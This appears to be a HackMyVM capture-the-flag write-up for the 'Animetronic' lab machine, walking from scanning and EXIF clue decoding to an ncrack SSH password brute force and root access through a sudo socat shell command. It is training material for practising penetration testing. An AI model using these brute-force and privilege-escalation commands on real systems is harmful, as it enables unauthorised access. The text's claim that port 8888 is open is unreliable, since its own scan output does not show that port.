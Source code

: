 ```yaml
---
title: Animetronic - HackMyVM Writeup
date: 2024-03-23
categories:
  - Writeups
tags:
  - Linux
  - Enumeration
  - PrivEsc
---
```

# Arp-scan 

 Detecting the ip of the machine

```bash
192.168.1.76 08:00:27:06:e0:17 PCS Systemtechnik GmbH
```


# Ports

Starting with port scanning by using nmap

```bash
Host is up (0.018s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 

|   256 59:eb:51:67:e5:6a:9e:c1:4c:4e:c5:da:cd:ab:4c:eb (ECDSA)

|_  256 96:da:61:17:e2:23:ca:70:19:b5:3f:53:b5:5a:02:59 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Animetronic

|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 08:00:27:06:E0:17 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  
TRACEROUTE

HOP RTT      ADDRESS

1   17.72 ms animetronic (192.168.1.76)
```

We can see that 80, 22 and 8888 ports are opened

# Url Enumeration

Use Dirsearch for directory discovery

```shell
dirsearch -u http://192.168.1.76 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
# result -> /staffpages/new_employees
```

(note that the default dictionary might not work)

## Exif 

As we access the directory, we can see nothing but a picture.

Download it and check the exif data of it:
```shell
root@kali ~/Downloads [1]# exiftool new_employees.jpeg
ExifTool Version Number         : 12.67
File Name                       : new_employees.jpeg
Directory                       : .
File Size                       : 160 kB
File Modification Date/Time     : 2024:03:22 12:54:39-04:00
File Access Date/Time           : 2024:03:22 12:55:22-04:00
File Inode Change Date/Time     : 2024:03:22 12:54:39-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : page for you michael : ya/HnXNzyZDGg8ed4oC+yZ9vybnigL7Jr8SxyZTJpcmQx53Xnwo=
Image Width                     : 703
Image Height                    : 1136
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 703x1136
Megapixels                      : 0.799
```

 Decoding:

```bash
echo "ya/HnXNzyZDGg8ed4oC+yZ9vybnigL7Jr8SxyZTJpcmQx53Xnwo=" | base64 -d
```

Result :

```shell
ɯǝssɐƃǝ‾ɟoɹ‾ɯıɔɥɐǝן # message_for_michael
```

Then we can do a smart assumption that this might be a directory.

By accessing it:

![[Note_img.png]]

Then:

![[personal_info.png]]

We can make another guess that this might be for ssh. Hence what we need to do now is to cupp to create a dictionary, we can consider using ncrack to get the ssh user and password.

ssh user & password:

```
ncrack -v -u michael -P michael.txt -T5 ssh://192.168.1.76 -f
```

Result:

```shell
192.168.1.76 22/tcp ssh: 'michael' 'leahcim1996'
```

## SSH

As we login into via ssh, we are able to see a file "Note.txt"

```shell
michael@animetronic:/home/henry$ cat Note.txt 
if you need my account to do anything on the server,
you will find my password in file named

aGVucnlwYXNzd29yZC50eHQK
```

By decoding it, it is "henrypassword.txt".

```shell
find / -name henrypassword.txt
```

Result:

```shell
/home/henry/.new_folder/dir289/dir26/dir10/henrypassword.txt
```

Then we are able to get the password of user henry:

```shell
michael@animetronic:/home/henry$ cat /home/henry/.new_folder/dir289/dir26/dir10/henrypassword.txt
IHateWilliam
```

Login into user henry:

```shell
henry@animetronic:~$ sudo -l
Matching Defaults entries for henry on animetronic:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User henry may run the following commands on animetronic:
    (root) NOPASSWD: /usr/bin/socat
```

## Privilege Escalation

```shell
sudo socat stdin exec:/bin/bash
```

